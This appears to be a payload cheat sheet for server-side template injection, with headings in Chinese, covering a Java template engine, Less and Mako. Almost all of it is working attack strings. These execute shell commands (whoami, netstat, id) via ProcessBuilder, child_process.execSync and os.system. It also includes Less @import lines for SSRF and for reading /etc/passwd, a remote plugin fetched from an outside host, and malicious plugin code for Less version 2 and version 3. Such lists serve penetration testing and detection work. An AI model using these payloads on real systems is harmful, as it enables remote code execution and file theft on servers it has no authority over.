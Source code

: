 	{{'a'.toUpperCase()}} would result in 'A'
	{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
	命令执行
	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

	{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
  #### Less
	SSRF / LFI
	@import (inline) "http://localhost";
	或者
	@import (inline) "/etc/passwd";
	Lessjs < v3 - 命令执行
	body {
	  color: `global.process.mainModule.require("child_process").execSync("id")`;
	}
	插件
	使用本地插件的例子
	@plugin "plugin-2.7.js"	;
	使用远程插件的例子
	@plugin "http://example.com/plugin-2.7.js"
	版本 2 RCE
	functions.add('cmd', function(val) {
	  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
	});
	版本 3 及更高版本的RCE 
	//Vulnerable plugin (3.13.1)
	registerPlugin({
	    install: function(less, pluginManager, functions) {
	        functions.add('cmd', function(val) {
	            return global.process.mainModule.require('child_process').execSync(val.value).toString();
	        });
	    }
	})
  #### Mako
  	<%
	import os
	x=os.popen('id').read()
	%>
	${x}
	TemplateNamespace 直接访问os模块
	${self.module.cache.util.os.system("id")}
	${self.module.runtime.util.os.system("id")}
	${self.template.module.cache.util.os.system("id")}
	${self.module.cache.compat.inspect.os.system("id")}
	${self.__init__.__globals__['util'].os.system('id')}
	${self.template.module.runtime.util.os.system("id")}
	${self.module.filters.compat.inspect.os.system("id")}
	${self.module.runtime.compat.inspect.os.system("id")}
	${self.module.runtime.exceptions.util.os.system("id")}
	${self.template.__init__.__globals__['os'].system('id')}
	${self.module.cache.util.compat.inspect.os.system("id")}
	${self.module.runtime.util.compat.inspect.os.system("id")}
	${self.template._mmarker.module.cache.util.os.system("id")}
	${self.template.module.cache.compat.inspect.os.system("id")}